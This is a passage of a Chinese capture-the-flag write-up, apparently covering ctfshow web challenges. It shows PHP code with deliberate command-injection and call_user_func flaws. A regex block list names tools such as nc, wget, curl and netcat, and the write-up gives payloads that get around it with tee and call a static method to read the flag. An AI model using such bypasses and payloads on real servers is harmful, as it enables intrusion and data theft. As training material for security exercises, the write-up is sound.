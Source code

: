 ```php
    if(preg_match('/\\$|\.|\!|\@|\#|\%|\^|\&|\*|\?|\{|\}|\>|\<|nc|wget|exec|bash|sh|netcat|grep|base64|rev|curl|wget|gcc|php|python|pingtouch|mv|mkdir|cp/i', $x)){
        die('too young too simple sometimes naive!');
    }
}
if(isset($_GET['c'])){
    $c=$_GET['c'];
    check($c);
    exec($c);
}
else{
    highlight_file(__FILE__);
}
?>
```
由于过滤了点，没办法保存成带后缀的文件，考虑tee命令
> Linux tee命令用于读取标准输入的数据，并将其内容输出成文件。
> tee指令会从标准输入设备读取数据，将其内容输出到标准输出设备，同时保存成文件。

payload: ls /|tee 1 访问1下载发现根目录下有flag payload: cat /f149_15_h3r3|tee 2 访问下载就OK
## web137（call_user_func）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

call_user_func($_POST['ctfshow']);
```
没有过滤，调用getFlag即可
payload：ctfshow[0]=ctfshow&ctfshow[1]=getFlag或者ctfshow=ctfshow::getFlag
第一个payload相当于执行call_user_func(ctfshow,getflag)
## web138（call_user_func）
```php
<?php

error_reporting(0);
highlight_file(__FILE__);
class ctfshow
{
    function __wakeup(){
        die("private class");
    }
    static function getFlag(){
        echo file_get_contents("flag.php");
    }
}

if(strripos($_POST['ctfshow'], ":")>-1){
    die("private function");
}

call_user_func($_POST['ctfshow']);
```
